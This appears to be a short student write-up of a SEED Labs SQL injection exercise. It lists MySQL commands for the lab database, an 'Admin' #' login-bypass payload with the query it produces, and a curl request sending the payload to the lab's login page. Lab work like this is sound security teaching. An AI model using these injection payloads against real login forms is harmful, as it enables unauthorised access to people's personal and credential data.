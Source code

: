 # SQL-INJECTION-ATTACK
TASK-1
mysql -u root -pseedubuntu

mysql> use Users;

mysql> show tables;

![alt text](https://github.com/Waleed-gif/SQL-injection/blob/main/task%201.png)

TASK 2
    .USERNAME: "Admin' #"
      
    .PASSWORD: "xyz" (here is password is optional)
We will result in SQL Query

    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
	    
    FROM credential
	    
    WHERE name='Admin' #' && password='xyz'
![alt text](https://github.com/Sohail8612/SQL-INJECTION-ATTACK/blob/main/sql3.png)
TASK 3
- Write Code on Terminator in Seed Lab:

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php username=Admin%27%20%23';
//2- Copy the HTML code.

//3- Make a new file in location "file:///home/seed/Documents/temp.html"

//4. Run this location on browser
![alt text](https://github.com/Sohail8612/SQL-INJECTION-ATTACK/blob/main/sql2.png)
